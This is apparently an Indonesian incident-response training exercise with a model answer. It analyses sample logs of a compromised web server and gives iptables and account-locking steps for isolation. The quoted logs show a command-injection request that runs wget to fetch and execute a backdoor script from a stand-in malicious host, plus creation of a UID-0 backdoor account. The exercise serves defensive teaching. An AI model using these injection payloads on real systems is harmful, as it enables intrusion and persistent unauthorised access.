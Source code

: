 **Pertanyaan:**
1. Analisis indikator kompromi (IoC) dari log yang tersedia!
2. Jelaskan langkah-langkah untuk mengisolasi server yang terkompromi!
3. Bagaimana cara mengamankan server untuk mencegah kejadian serupa di masa depan?
4. Buat laporan insiden untuk manajemen!

**Jawaban Contoh:**

### 1. Analisis Indikator Kompromi (IoC)

**a. Log Web Server**
```
192.168.1.100 - - [15/Jan/2025:14:32:11 +0700] "GET /admin/scripts/setup.php?cmd=id HTTP/1.1" 200 3124
192.168.1.100 - - [15/Jan/2025:14:32:15 +0700] "GET /admin/scripts/setup.php?cmd=wget%20http://malicious.site/backdoor.sh HTTP/1.1" 200 4123
192.168.1.100 - - [15/Jan/2025:14:32:20 +0700] "GET /admin/scripts/setup.php?cmd=chmod%20%2bx%20backdoor.sh HTTP/1.1" 200 2987
192.168.1.100 - - [15/Jan/2025:14:32:25 +0700] "GET /admin/scripts/setup.php?cmd=.%2Fbackdoor.sh HTTP/1.1" 200 5123
```

**Indikator:**
- Eksploitasi file setup.php yang tidak dihapus
- Download dan eksekusi script dari sumber eksternal
- Command injection melalui parameter `cmd`

**b. Log Sistem**
```
Jan 15 14:32:30 dev-server sudo:     admin : TTY=pts/1 ; PWD=/var/www/html ; USER=root ; COMMAND=/bin/bash
Jan 15 14:33:00 dev-server useradd: new user: name=backdoor, UID=0, GID=0, home=/root, shell=/bin/bash
Jan 15 14:33:05 dev-server sshd[1234]: Accepted password for backdoor from 198.51.100.1 port 54321
```

**Indikator:**
- Eskalasi hak akses ke root
- Pembuatan akun backdoor
- Login SSH dari IP eksternal

### 2. Langkah Isolasi

**a. Isolasi Jaringan**
```bash
# Blokir akses keluar dari server yang terinfeksi
iptables -A OUTPUT -s 192.168.1.100 -j DROP

# Blokir akses ke server dari jaringan eksternal
iptables -A INPUT -s 198.51.100.1 -j DROP

# Nonaktifkan akun backdoor
usermod -L backdoor
passwd -l backdoor
```
